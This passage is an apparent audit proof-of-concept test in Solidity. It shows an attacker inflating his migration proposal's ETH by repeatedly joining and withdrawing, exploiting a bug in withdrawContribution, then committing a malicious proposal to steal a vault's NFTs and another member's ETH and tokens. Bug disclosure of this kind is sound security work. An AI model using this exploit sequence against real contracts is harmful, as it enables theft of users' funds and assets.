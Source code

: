             // NOTE: In a real world scenario, several members will join Alice's legit proposal with their own ETH and tokens,
            // but to make this PoC easier to read, instead of creating several fake accounts,
            // let's have just Alice join his own proposal with 50% of token supply.
    
            // STEP 4
            // Bob makes an evil proposal, with evil modules to steal the vault's NFTs
            bob.migrationModule.propose(
                vault,
                modules,
                nftReceiverPlugins,
                nftReceiverSelectors,
                TOTAL_SUPPLY,
                1 ether
            );
    
            // STEP 5
            // Bob joins and then withdraws from the proposal in loop, to inflate the ETH of his proposal
            // and total locked tokens (thanks to a bug in the `withdrawContribution` function)
            bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
            bob.migrationModule.withdrawContribution(vault, 2);
            bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
            bob.migrationModule.withdrawContribution(vault, 2);
            bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
            bob.migrationModule.withdrawContribution(vault, 2);
            bob.migrationModule.join{value: 10 ether}(vault, 2, 24);
            bob.migrationModule.withdrawContribution(vault, 2);
            bob.migrationModule.join{value: 10 ether}(vault, 2, 101);
    
    
            // Let's do some accounting...
            (,,uint256 totalEth_AliceProposal,,,,,,) = migrationModule.migrationInfo(vault,1);
            (,,uint256 totalEth_BobProposal,uint256 _totalFractions,,,,,) = migrationModule.migrationInfo(vault,2);
    
            // Alice proposal has 50 ETH.
            assertEq(totalEth_AliceProposal, 50000000000000000000);
    
            // Bob's proposal has 50 ETH.
            assertEq(totalEth_BobProposal, 50000000000000000000);
    
            // He only put 10 ETH, but it shows 50 ETH because
            // we inflate it by exploiting the bug.
    
            // We can keep inflating it indefinitely to get any ETH
            // amount desired (up to the max ETH balance of the smart contract).
    
            // NOTE that the very REAL ETH Balance of the vault is only the 50 ETH (from Alice) + 10 ETH (from Bob) = 60 ETH.
    
            // We'll steal those 50 ETH from alice and all of his fractional tokens, to add them to our proposal now.
    
            // STEP 6
            // Bob calls commit to kickoff the buyout process
            bool started = bob.migrationModule.commit(vault, 2);
            assertTrue(started);
    